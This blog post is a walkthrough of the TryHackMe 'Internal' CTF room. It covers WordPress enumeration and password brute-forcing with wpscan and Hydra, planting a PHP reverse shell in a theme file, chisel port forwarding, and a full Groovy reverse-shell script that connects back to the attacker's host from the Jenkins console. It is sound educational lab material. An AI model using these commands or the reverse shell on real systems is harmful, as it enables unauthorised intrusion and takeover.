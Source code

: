 ```yaml
---
title: TryHackMe - Internal
author: Fawaz Masood Qureshi
date: 2021-04-12 18:00:00 +0500
comments: false
categories: [CTF-Walkthroughs, Tryhackme-Rooms]
tags: [ctf, tryhackme]
---
```

[Intenal](https://tryhackme.com/room/internal) is a hard difficulty penetration testing challenge created by [TheMayor](https://tryhackme.com/p/TheMayor). 

# Enumeration
Lets start our nmap scan and see what ports are open and what services are running on these ports.
## nmap scan result:

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 19:18 PKT  
Nmap scan report for 10.10.94.39 (10.10.94.39)  
Host is up (0.49s latency).  
  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)  
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)  
|\_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|\_http-server-header: Apache/2.4.29 (Ubuntu)  
|\_http-title: Apache2 Ubuntu Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 32.28 seconds

```

So we have two ports open, **22** and **80**. Let us first enumerate the content on port 80.

## Enumerating the port 80:
First thing we can do is to check for any files or directories on the server:
```bash
dirsearch -u http://10.10.94.39/ -e php,html,bak -w /wordlists/directory-list-2.3-medium.txt -t 100
```
![](/assets/img/posts/thm-internal/Screenshot_20210408_195726.png)

If we visit the **/blog/** page, we can see it is using wordpress cms. Lets use wpscan:
```bash
wpscan --url http://10.10.179.3/blog/ -e u
```
wpscan found a username **admin**.  So now we can try to bruteforce the passwords. Hydra can be used, but wpscan can also be used for this purpose:
```bash
wpscan --url http://10.10.179.3/blog/ -e u -t 400 -P /wordlists/rockyou.txt
```
Found a valid password for user **admin**:

![](/assets/img/posts/thm-internal/Screenshot_20210409_173140.png)

So now we can use these credentials and login as admin.

While checking the admin panel, we see that there are two posts. From which one is private. This post contains some sort of credentials.

![](/assets/img/posts/thm-internal/Screenshot_20210409_181146.png)

Hmm! So maybe we can try those on port 22? Unfortunately, it did not work. Seems like a rabbit hole :( Lets continue with the admin panel.
Well in the themes section, we can see a theme **twenty seventeen** is installed. Lets edit this one.
We have access to mutiple **.php** files. So simply uploading a reverse shell in one file can give us a shell!

![](/assets/img/posts/thm-internal/Screenshot_20210409_182015.png)

I used the following reverse shell from pentestmonkey github repo:
[Link](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

After setting up a netcat listener we can browse to non-existing endpoint on the blog so that the 404.php code runs. As soon as we hit the 404.php, we will get a reverse shell:

![](/assets/img/posts/thm-internal/Screenshot_20210409_182822.png)

Okay, we are in! 

# Post exploitation
We can see a user `aubreanna` in the home directory. Doing a little enumeration on the box revealed that there is a jenkins server running locally:
```bash
netstat -anotp
```

![](/assets/img/posts/thm-internal/Screenshot_20210409_211849.png)

We can see that port **8080** is open and listening. Now if we list the processes, we will see a java program running (which is jenkins):
```bash
ps aux
```

![](/assets/img/posts/thm-internal/Screenshot_20210409_212153.png)

> Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.

Googling about jenkins reveals that the default port for jenkins is **8080**.

## Port Forward
To access the jenkins from our local machine, we'll need to forward the port. I'll be using **chisel**.

First we'll need to get the chisel binary on the target system. This can be done using a smple python server. 
Once we have chisel on the target we can start chisel server at target:
```bash
chisel server -p 6666	# we can choose any random port
```
Then on our local machine:
```bash
chisel client <Target Ip>:6666 9999:127.0.0.1:8080	# 9999 is our local machine's port
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_194257.png)

Now we'll be able to access the jenkin from our local machine at the address **`127.0.0.1:9999`:**

![](/assets/img/posts/thm-internal/Screenshot_20210410_194426.png)

I tried the credentials that we found so far but both did not worked. So lets brutforce the login. I'll be using Hydra here:

```bash
hydra -l admin -P /wordlists/rockyou.txt 127.0.0.1 -s 9999  http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid+username+or+password'
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_212228.png)

And we found the password. Using that passowrd we can login as admin in jenkins.
Once we are in, we can run groovy script on the jenkins console. I used the following reverse shell written in groovy:

```groovy
String host="Our-machine-ip";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_213433.png)

And we got a shell as user jenkins. Doing a little enumeration reveals that there is a file at **`/opt`** containing credentials for root user:

```
jenkins@jenkins:/opt$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:PASS-WILL-BE-HERE
```

So we just need to switch user to root or we can ssh into target as root. Whatever you prefer.

![](/assets/img/posts/thm-internal/Screenshot_20210410_215257.png)

And the box is finally rooted!

I hope you enjoyed while reading this walkthrough and learnt something today.